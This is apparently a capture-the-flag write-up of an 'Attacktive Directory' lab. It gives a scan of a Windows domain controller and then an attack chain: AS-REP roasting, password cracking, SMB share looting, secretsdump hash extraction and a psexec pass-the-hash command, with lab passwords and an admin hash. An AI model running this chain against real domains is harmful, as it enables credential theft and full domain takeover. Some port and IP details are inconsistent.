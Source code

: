 # Attacktive Directory
<b>Target IP: <code>10.10.87.50</code></b>

 <p>
 	53/tcp   open  domain        Simple DNS Plus <br>
 	80/tcp   open  http          Microsoft IIS httpd 10.0<br>
 	88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-08-10 03:10:15Z)<br>
 	135/tcp  open  msrpc         Microsoft Windows RPC<br>
 	139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn<br>
 	389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)<br>
 	445/tcp  open  microsoft-ds?<br>
 	464/tcp  open  kpasswd5?<br>
 	593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0<br>
 	636/tcp  open  tcpwrapped<br>
 	3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: spookysec.local0., Site: Default-First-Site-Name)<br>
 	3269/tcp open  tcpwrapped<br>
 	389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
 </p>
 <p>Let's look at the port 80 <img src="https://i.ibb.co/Qr56rVy/1.png" alt="1" border="0"></p>

<p>
	Using enum4kerb we found interesting users like backup and svc-admin. Using this command: <code>python3 /opt/impacket/examples/GetNPUsers.py -dc-ip 10.10.87.50 spookysec.local/svc-admin -no-pass</code> We got a hash and using <code>john</code> we know that password is <i>management2005</i><br>
	Now let's use smbmap. <br>
	<code>smbmap -H 10.10.87.50 -d spookysec.local -u svc-admin -p management2005</code>
	<p>
		Using smbclient we get the the interesting file from backup directory and find there base64 encoded message. If we decode it we get these creds: <code>backup@spookysec.local:backup2517860</code><br>
		Using this command <code>secretsdump.py -just-dc backup@10.10.87.50</code> and the password we can get all the hashes. <br>
		Then we can use <code>psexec.py</code> to exploit the <i>pass the hash</i> attack and get access to the servers. <code>psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc administrator@10.10.87.5</code>
	</p>
</p>
